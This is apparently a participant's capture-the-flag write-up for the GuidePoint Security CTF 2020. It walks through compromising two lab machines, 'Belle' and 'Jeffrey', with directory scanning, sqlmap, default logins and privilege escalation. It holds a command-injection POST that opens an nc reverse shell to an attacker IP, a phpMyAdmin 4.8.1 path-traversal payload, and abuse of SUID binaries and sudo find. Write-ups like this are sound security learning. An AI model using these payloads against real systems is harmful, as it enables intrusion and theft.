 # GuidePoint Security CTF 2020

[GuidePoint CTF 2020](https://www.youtube.com/redirect?event=video_description&v=yJF0YPd8lDw&q=https%3A%2F%2Fgo.guidepointsecurity.com%2F2020_11_17_Corp_CaptureTheFlag_Digital_01-Registration-LP.html&redir_token=QUFFLUhqbVVlSTdCOGFwVDF1Z0FTVEU4MGswdWZ5OHNJZ3xBQ3Jtc0ttcjdhR0dld3lkUFJuNHhQQ3lwMEFEYkkycVdfbnlfT0N0ZndzWGFBVGttaExKazJjZm56Z3ktanFGSWdwaExZQ0dya0U4MmFHQ1R6M0pUWlY2alEyVDBTbEg5VG1BOS1uZXdRaGdmZURDNHF3RjB5dw%3D%3D)

## Timeline

Launch: Tuesday, November 17th - 8:00 AM EST
Ends: Monday, November 23rd - 5PM EST
Rank: 10th on Leader board (updated 11/19/2020)


# Belle 1
> May Phan November 17, 2020

## 1 Run nmap

found port80 open

nothing interesting on 10.10.20.3, just one line of html title and header

## Run dibrbuster to look for hidden directory

found phpmyadmin portal > admin,admin didn't work

## run dirbuster to find common file extension
````
dirb http://10.10.20.3/ /usr/share/dirb/wordlists/big.txt -w -X ".asp,.html,.htm,.php,.xml,.jsp"
````

a ha! found http://10.10.20.3/roster.php

## Roster Lookup

Look up Belle?

return 
``
Name: Belle
Role: Princess
"Have your really read every one of these books?"
``
Belle from Beauty and the beast? Rose petal? Books? princess?
Look up Beast
return 
```
"Here's where she meets Prince Charming, but she won't discover that it's him 'til chapter three!"
```
Is there a database? Maybe try running a sql vuln?

## Run sqlmap 

```
dumped to CSV file '/root/.local/share/sqlmap/output/10.10.20.3/dump/castle/Secret.csv'

```

Secret.cvs is large file with a ton of hex characters.. 


translated from hex but a flag is not found

`GMZDGMZTGYZTGMZWGMZTGMBTGYZTIMZWGM2TGMZTGUFDAYJTGYZTMMZTGMYTGMZTG4ZTMMZWGMZT
GMRTGMZTGMZTGMYDGMZTGMZTMMZUGMZTGOJTGMZTCMZTGM4DGMZTGEZTONRUGMYAUNRRGBQQU===
`
it's not base 64

staff.csv has some data

``
name,role,secret,quote
Belle,Princess,daxmaUBr2b.6g,Have you really read every one of these books?
Chip Potts,Son of Mrs. Potts,teSSCPf05DkTQ,"Ha ha! His moustache tickles, momma!"
Cogsworth,Pendulum clock,clN9IWrQ81HUw,"Enchanted? Ha-ha-ha-ha! Who said anything about the castle being enchated? Ha-ha-ha.... It was you, wasn't it?"
Gaston,Hunter,asMuXJnRAPDAM,"You are the wildest, most gorgeous thing I've ever seen! Nobody deserves you..."
Lefou,Gaston's lackey,laGnoRYe87qM2,And his name's G-A-S-T... I believe there's another T... It just occurred to me that I'm illiterate and I've never actually had to spell it out before... 
Luminere,maitre d,cadS49Adb3g76,Be our Guest!
Madame Armoire,Opera Singer,waonbbJgTptGU,AHHHHHHHHH!!!!
Maurice,Father,faBotLT53bVnI,Don't be afraid.
Mrs. Potts,Head of Kitchen,te18RJOS5u/4E,"Oh, stop your grousing. It's been a long night for all of us."
Plumette,Maid,fe0DoZHPoIvYY,A girl! I saw a girl in the castle!
The Beast,Prince,be42ZQu3jcOEo,"No, not all of them. Some of them are in Greek."
``

That " secret"  column looks promising, maybe we can look that up in the secret.csv file

I can trim the file to get only jsut secret

``
daxmaUBr2b.6g
teSSCPf05DkTQ
clN9IWrQ81HUw
asMuXJnRAPDAM
laGnoRYe87qM2
cadS49Adb3g76
waonbbJgTptGU
faBotLT53bVnI
te18RJOS5u/4E
fe0DoZHPoIvYY
be42ZQu3jcOEo
``

these can be hidden dir for each of the "staff"
 maybe use dirbuster again on thes secret to find 

``
---- Scanning URL: http://10.10.20.3/ ----
==> DIRECTORY: http://10.10.20.3/daxmaUBr2b.6g/                                                                      
==> DIRECTORY: http://10.10.20.3/teSSCPf05DkTQ/                                                                      
==> DIRECTORY: http://10.10.20.3/clN9IWrQ81HUw/                                                                      
==> DIRECTORY: http://10.10.20.3/asMuXJnRAPDAM/                                                                      
==> DIRECTORY: http://10.10.20.3/laGnoRYe87qM2/                                                                      
==> DIRECTORY: http://10.10.20.3/cadS49Adb3g76/                                                                      
==> DIRECTORY: http://10.10.20.3/waonbbJgTptGU/                                                                      
==> DIRECTORY: http://10.10.20.3/faBotLT53bVnI/                                                                      
==> DIRECTORY: http://10.10.20.3/te18RJOS5u/4E/                                                                      
==> DIRECTORY: http://10.10.20.3/fe0DoZHPoIvYY/                                                                      
==> DIRECTORY: http://10.10.20.3/be42ZQu3jcOEo/ 
``


this one timed out. what does it mean

``
---- Entering directory: http://10.10.20.3/cadS49Adb3g76/ ----                                                                             
(!) FATAL: Too many errors connecting to host
    (Possible cause: OPERATION TIMEOUT)
``

ok let's navigate to that

it's a guestbook
view source shows POST method with input 
we cam get a shell from that 


`
root@kali:/home/may# curl -X POST http://10.10.20.3/cadS49Adb3g76/ -d "input_name=a;system('/bin/nc.traditional -nv 10.10.0.77 4444 -e /bin/bash')&input_text=b&Submit=submit"
`

got a shell!! Found flag.txt 

`
flag2{cc46091749e55f33fe4046b9c8855a13}
`

escate priviledge

`
find / -user root -perm -4000 -exec ls -ldb {} \;
`

`
cat /home/public/flag.txt
flag3{ee195d0d8ee3e759f300116f0829468b}
cat /root/flag.txt
flag4{0fe769de0194b20822e561a57864ac48}
That's it.
`






# Jeffrey

> May Phan November 18 2020

view source found first flag: 

StormCTF{Learners:Net:Jeffrey1:6d9e2b41A7a421BE92d7cB23B850FD50}

# Nmap 

`
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 76:14:8f:cf:6a:49:bd:d3:ca:ec:9a:d7:6c:f8:7a:d5 (RSA)
|   256 2d:4f:86:b2:39:5d:45:6f:10:35:46:51:a7:e2:ae:17 (ECDSA)
|_  256 ea:3b:08:57:35:c0:75:af:70:b0:82:e1:82:11:bf:72 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)                                                                                      
|_http-title: Jeffrey
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
`

allports

`
58008/tcp open  unknown
`

# Dirbuster

found /wordpress

when nagivating to 10.10.20.2/wordpress, clicked on liknks and got redirected to http://jeffrey.storm.ctf/. Ping unresponsive

Found phpadmin
logged in with admin:password 
found second flag

StormCTF{Learners:Net:Jeffrey2:faD3c1dB5d6F167c0C7BFd8f24af76Ee} 


another clue: 

Aldus, quit using the admin account. We removed the permissions. We saved your password at /var/www/aldus.txt

# PHP vuln

Let's check metasploit if this version of phpadmin has a vulnerable

phpadmin 4.8.1 does have a Local File vuln. we can climb up the file tree to get the txt file

found this on the exploidb website

Payload:

http://127.0.0.1/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../windows/wininit.ini

 we can use this to jeffery
`
http://10.10.20.2/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../var/www/aldus.txt
`
 found password
 Aldus, this is a really insecure way to store your password, so we encoded it so that no one can ever get it without knowing how to decode it!!! Your encoded password is: ZzN0X2hpbV8ydGgzLUdyM2VLCg==

 looks like a base64. google a decoder

 got password

 `
g3t_him_2th3-Gr3eK

 `

Where can I use this

there was another open port 58008

`
http://10.10.20.2:58008/
`
got it! logged in with aldus : g3t_him_2th3-Gr3eK


found the flag!!1

StormCTF{Learners:Net:Jeffrey3:ca2cBDD70aA9029d1bad2Cb527C18529}


last flag

priviledge escalation

`
sudo -l
`

seems like aldus run find, we might just be able to find flag.txt in root
`
User aldus may run the following commands on jeffrey.storm.ctf:
    (ALL) NOPASSWD: /usr/bin/find
`
`
sudo find . -exec cat flag.txt \
`

ah ha found the flag

StormCTF{Learners:Net:Jeffrey4:e4B6f1661bBE654Ba901CbC3Be377E89}

